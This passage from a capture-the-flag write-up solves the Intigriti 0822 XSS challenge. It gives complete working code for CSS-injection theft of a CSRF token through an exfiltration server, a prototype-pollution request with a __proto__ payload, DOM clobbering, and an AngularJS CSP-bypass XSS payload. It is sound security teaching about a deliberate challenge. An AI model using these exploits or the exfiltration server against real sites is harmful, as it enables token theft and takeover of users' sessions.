input#csrf-token[value^="Z"] { background: url("http://localhost:3000/leak/Z"); }
input#csrf-token[value^="a"] { background: url("http://localhost:3000/leak/a"); }
input#csrf-token[value^="b"] { background: url("http://localhost:3000/leak/b"); }
input#csrf-token[value^="c"] { background: url("http://localhost:3000/leak/c"); }
...
input#csrf-token[value^="z"] { background: url("http://localhost:3000/leak/z"); }
```

And once the first value is leaked to our server, we can use the leaked value to form the response for the 2nd CSS rule to be imported in `http://localhost:3000/polling/1`, and stop hanging that response:

```css
input#csrf-token[value^="s1"] { background: url("http://localhost:3000/leak/1"); }
input#csrf-token[value^="s2"] { background: url("http://localhost:3000/leak/2"); }
input#csrf-token[value^="s3"] { background: url("http://localhost:3000/leak/3"); }
...
input#csrf-token[value^="s0"] { background: url("http://localhost:3000/leak/0"); }
input#csrf-token[value^="sA"] { background: url("http://localhost:3000/leak/A"); }
input#csrf-token[value^="sB"] { background: url("http://localhost:3000/leak/B"); }
input#csrf-token[value^="sC"] { background: url("http://localhost:3000/leak/C"); }
...
input#csrf-token[value^="sZ"] { background: url("http://localhost:3000/leak/Z"); }
input#csrf-token[value^="sa"] { background: url("http://localhost:3000/leak/a"); }
input#csrf-token[value^="sb"] { background: url("http://localhost:3000/leak/b"); }
input#csrf-token[value^="sc"] { background: url("http://localhost:3000/leak/c"); }
...
input#csrf-token[value^="sz"] { background: url("http://localhost:3000/leak/z"); }
```

Our server will just continue doing that until our CSS injection leaks out every character in the `csrf-token` value.

Here's a POC video to show the CSS injection leaking a value from a webpage:



The CSS injection server that I used was adapted from [this github gist by Michał Bentkowski](https://github.com/securitum/research/blob/master/r2020_firefox-css-data-exfil/exploit.js). He has also written a better explanation of the CSS injection technique that I am using over [here](https://web.archive.org/web/20210620225017/https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/).

## DOM clobbering and prototype pollution

Now that I had a working CSS injection POC in my test page, I quickly adapted it to work on the actual challenge. Once I injected my payload into the page, I quickly found out that the CSS injection on its own wasn't enough to leak the token. Turns out, our payload was being displayed on the page for less than a second thanks to another part of the javascript highlighted below:

```javascript{7-10,18,27-29}
function start() {
  const message = decodeURIComponent(location.hash.replace('#msg=', ''))
  if (!message.length) return
  const options = {}
  if (document.domain.match(/testing/)) {
    options['production'] = false
  } else {
    options['production'] = true
    options['timeout'] = () => Math.random()*300 + 300
  }
  showMessage(message, {
    container: document.querySelector('body'),
    ...options
  })
}

function showMessage(message, options) {
  const getTimeout = options.timeout || (() => 500)
  const container = options.container || document.querySelector('body')

  const modal = document.createElement('div')
  modal.id = 'messageModal'
  modal.innerHTML = DOMPurify.sanitize(message)
  container.appendChild(modal)
  history.replaceState(null, null, ' ')

  setTimeout(() => {
    container.removeChild(modal)
  }, getTimeout())
}
```

We see in the `start` function that if `document.domain.match(/testing/)` is a truthy value, `options.timeout` is not set. This means that if we use prototype pollution to set the `timeout` attribute in the global object, we can control how long our message is displayed on the page for. But how do we make `document.domain.match(/testing/)` not be `null`?

We can use a mixture of DOM clobbering and prototype pollution for this. By setting the name to `"><div id=domain>`, our inserted div clobbers the actual `document.domain` value and returns a `HTMLElement` object when the javascript tries to use the `document.domain` value. We can use prototype pollution again to set `.match()` to resolve to a value. You might be wondering: "how are you going to pollute .match so that getting the .match attribute from objects results in a function?". To that question we see that there is a function in the page that is vulnerable to prototype pollution:

```javascript{14-21}
function initTheme() {
  if (window.matchMedia && window.matchMedia('(prefers-color-scheme: dark)').matches) {
    isDarkMode = true
  }

  fetch("theme.php")
    .then((res) => res.json())
    .then((serverTheme) => {
      theme = {
        primary: {},
        secondary: {}
      }

      for(let themeName in serverTheme) {
        const currentTheme = theme[themeName]
        const currentServerTheme = serverTheme[themeName]

        for(let item in currentServerTheme) {
          currentTheme[item] = () => isDarkMode ? currentServerTheme[item].dark : currentServerTheme[item].light
        }
      }

      const themeDiv = document.querySelector('.theme-text')
      themeDiv.innerText = `Primary - Text: ${theme?.primary?.text()}, Background: ${theme?.primary?.bg()}
        Secondary - Text: ${theme?.secondary?.text()}, Background: ${theme?.secondary?.bg()}
      `
      start()
    })
}
```

If `themeName` is `__proto__` and `item` is `<any value>`, we get a prototype pollution

It just so happens that the theme is controllable.

By sending the following HTTP request:

```http
POST /challenge/theme.php HTTP/1.1
Host: challenge-0822.intigriti.io
Content-Type: application/json
Referer: https://challenge-0822.intigriti.io/challenge/update-theme.php
Cookie: PHPSESSID=<session cookie>

{
  "primary":{"text":{"dark":"#47fb4e","light":"#666"},"bg":{"dark":"#2a2944","light":"#fcfcfc"}},"secondary":{"text":{"dark":"#ffffff","light":"#404594"},"bg":{"dark":"#ffaf00","light":"#ffe1a0"}},
  "__proto__":{
    "hunter2":{
      "dark":"haha","light":"haha"
    },
  }
}
```

We are able to set `({}).hunter2` to be equal to `haha`.

Notice how the code turns our polluted attribute into a function that resolves into the value we are trying to pollute the attribute with. This is why prototype pollution works here. If the code was instead:

```javascript
for(let themeName in serverTheme) {
  const currentTheme = theme[themeName]
  const currentServerTheme = serverTheme[themeName]

  for(let item in currentServerTheme) {
   // notice the () => was removed 
    currentTheme[item] = isDarkMode ? currentServerTheme[item].dark : currentServerTheme[item].light
  }
}
```

the exploit wouldn't work.

Therefore to get `document.domain.match(/testing/)` to equal true, we just DOM clobber the `document.domain` value with any HTML element and use prototype pollution to set the `match` attribute in the global object to a function that resolves to any truthy value. We could also pollute `Object.prototype.timeout` to whatever timeout duration we want to make sure that the CSS injection payload stays on the page long enough for the CSRF token to be exfiltrated.

## Final exploit

Once this final step was figured out, we can finally create a working POC to achieve 2-click XSS. Here are the steps to achieve XSS outlined:

1. login with the name `">` to DOM clobber `document.domain`
2. send a POST request to `/challenge/theme.php` with the payload:
  ```json
  {
    "primary":{"text":{"dark":"#47fb4e","light":"#666"},"bg":{"dark":"#2a2944","light":"#fcfcfc"}},"secondary":{"text":{"dark":"#ffffff","light":"#404594"},"bg":{"dark":"#ffaf00","light":"#ffe1a0"}},
    "__proto__":{
      "timeout":{
        "dark":"100000","light":"100000"
      },
      "match": {
        "dark":"yes","light":"yes"
      }
    }
  }
  ```
3. use CSS injection to steal CSRF token
4. use the CSRF token to view the `/challenge/preview.php` page with our CSP bypass payload, and achieve XSS

Here is the final code for the exploit I wrote:

:::: details poc.html
```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>final-exploit</title>
  </head>
  <body>
    <button onclick="doExploit()">click me</button>
    <form id="updateTheme" method="post" enctype="text/plain">
      <!-- weird hack to get JSON request body in a HTML form -->
      <input
        name='{"primary":{"text":{"dark":"#47fb4e","light":"#666"},"bg":{"dark":"#2a2944","light":"#fcfcfc"}},"secondary":{"text":{"dark":"#ffffff","light":"#404594"},"bg":{"dark":"#ffaf00","light":"#ffe1a0"}},"__proto__":{"timeout":{"dark":"100000","light":"100000"},"match":{"dark":"yes","light":"yes'
        value='"}}}'
      />
    </form>
    <form
      id="xssForm"
      method="post"
      enctype="application/x-www-form-urlencoded"
    >
      <!-- weird hack to get JSON request body in a HTML form -->
      <input id="csrfToken" name="csrf-token" value="placeholder" />
      <input id="xssPayload" name="desc" value="placeholder" />
      <input name="name" value="" />
    </form>
  </body>
  <script>
    function sleep(ms) {
      return new Promise((resolve) => setTimeout(resolve, ms));
    }

    const baseUrl = "https://challenge-0822.intigriti.io";
    const cssInjectionServerUrl = "http://localhost:3000";
    let w;

    const doExploit = async () => {
      // login with user
      const loginName = `">`;
      w = window.open(
        `${baseUrl}/challenge/login.php?name=${encodeURIComponent(loginName)}`,
        "window1"
      );

      try {
        while (true) {
          w.origin;
          await sleep(100);
        }
      } catch (e) {}

      // update theme
      const updateThemeForm = document.getElementById("updateTheme");
      updateThemeForm.target = "window1";
      updateThemeForm.action = `${baseUrl}/challenge/theme.php`;
      updateThemeForm.submit();

      await sleep(1000);

      // steal CSRF token
      await fetch(`${cssInjectionServerUrl}/clear`);
      const res1 = await fetch(`${cssInjectionServerUrl}/generate?len=32`);
      const cssInjectionPayload = await res1.text();
      console.log(cssInjectionPayload);

      w.location = `${baseUrl}/challenge/app.php#msg=<h1>test</h1>${encodeURIComponent(cssInjectionPayload)}`;

      const sessionId = cssInjectionPayload.split("polling/")[1].split("/0")[0];
      let csrfToken = "";
      let i = 0;
      while (csrfToken.length !== 32) {
        await sleep(1000);
        const res2 = await fetch(
          `${cssInjectionServerUrl}/result/${sessionId}`
        );
        csrfToken = await res2.text();
        i++;
        if (i === 10) {
          console.log("exploit broke");
          break;
        }
      }

      console.log(csrfToken);
      // do XSS
      const xssForm = document.getElementById("xssForm");
      xssForm.elements[0].value = csrfToken;
      xssForm.elements[1].value = `https://www.youtube.com/embed/=''aaaa='you'type='submit'srcdoc='<script/src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js"><\/script><script/src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"><\/script><div/ng-app>{{[].erase.call().alert([].erase.call().origin)}}</div>'fix=.png`;
      xssForm.target = "window1";
      xssForm.action = `${baseUrl}/challenge/preview.php`;
      xssForm.submit();
    };
  </script>
</html>
```
::::

:::: details css-injection-server.js
```javascript
const compression = require("compression");
const express = require("express");
const cssesc = require("cssesc");

const app = express();
app.set("etag", false);
app.use(compression());

app.use((req, res, next) => {
  res.set("Access-Control-Allow-Origin", "*");
  res.set("Access-Control-Allow-Methods", "*");
  res.set("Access-Control-Allow-Headers", "*");
  res.set("Access-Control-Expose-Headers", "*");
  res.set("Access-Control-Allow-Private-Network", "true");
  if (req.method === "OPTIONS") {
    return res.status(204).send();
  }
  next();
});

const SESSIONS = {};

const POLLING_ORIGIN = `http://localhost:3000`;
const LEAK_ORIGIN = `http://127.0.0.1:3000`;

// const POLLING_ORIGIN = `https://test.georgemao.com`;
// const LEAK_ORIGIN = `https://test2.georgemao.com`;

function urlencode(s) {
  return encodeURIComponent(s).replace(/'/g, "%27");
}

function createSession(length = 150) {
  let resolves = [];
  let promises = [];
  for (let i = 0; i < length; ++i) {
    promises[i] = new Promise((resolve) => (resolves[i] = resolve));
  }
  resolves[0]("");
  return { promises, resolves };
}

const CHARSET = Array.from(
  "1234567890/=+QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm"
);
app.get("/polling/:session/:index", async (req, res) => {
  let { session, index } = req.params;
  index = parseInt(index);
  if (index === 0 || !(session in SESSIONS)) {
    SESSIONS[session] = createSession();
  }

  res.set("Content-Type", "text/css");
  res.set("Cache-Control", "no-cache");

  let knownValue = await SESSIONS[session].promises[index];

  const ret = CHARSET.map((char) => {
    return `html:has(meta[name="csrf-token"][content^='${cssesc(knownValue + char)}']) body {
            background: url('${LEAK_ORIGIN}/leak/${session}/${urlencode(knownValue + char)}');
        }`;
  }).join("\n");

  res.send(ret);
});

app.get("/leak/:session/:value", (req, res) => {
  let { session, value } = req.params;
  console.log(`[${session}] Leaked value: ${value}`);

  SESSIONS[session].resolves[value.length](value);
  res.status(204).send();
});

app.get("/generate", (req, res) => {
  const length = req.query.len || 100;
  const session = Math.random().toString(36).slice(2);

  res.set("Content-type", "text/plain");
  for (let i = 0; i < length; ++i) {
    res.write(
      `<style>@import '${POLLING_ORIGIN}/polling/${session}/${i}';</style>\n`
    );
  }
  res.send();
});

app.get("/result/:session", async (req, res) => {
  const { session } = req.params;
  if (!(session in SESSIONS)) {
    return res.status(404).send("Session not found");
  }

  const { promises } = SESSIONS[session];
  const PENDING = Symbol();
  let latestValue = "";

  for (let i = 0; i < promises.length; i++) {
    const result = await Promise.race([
      promises[i],
      new Promise((resolve) => setImmediate(() => resolve(PENDING))),
    ]);
    if (result === PENDING) break;
    latestValue = result;
  }

  res.set("Content-Type", "text/plain");
  res.send(latestValue);
});

app.get("/clear", (req, res) => {
  Object.keys(SESSIONS).forEach((key) => {
    delete SESSIONS[key];
  });
  res.status(204).end();
});

const PORT = 3000;
app.listen(PORT, () => console.log(`Example app listening on port ${PORT}!`));
```

package.json:

```json
{
  "name": "css-injection-test-server",
  "version": "0.0.0",
  "private": true,
  "scripts": {
    "start": "node index.js"
  },
  "dependencies": {
    "compression": "^1.7.4",
    "cssesc": "^3.0.0",
    "express": "^4.19.2"
  }
}

```
::::

The exploit is 2-click as I use `window.open` in the exploit POC page, and we need user interaction to get `window.open` to run without the browser giving us a popup blocker warning.

And here is a GIF of my POC running:



With this, we have solved the challenge and achieved XSS.
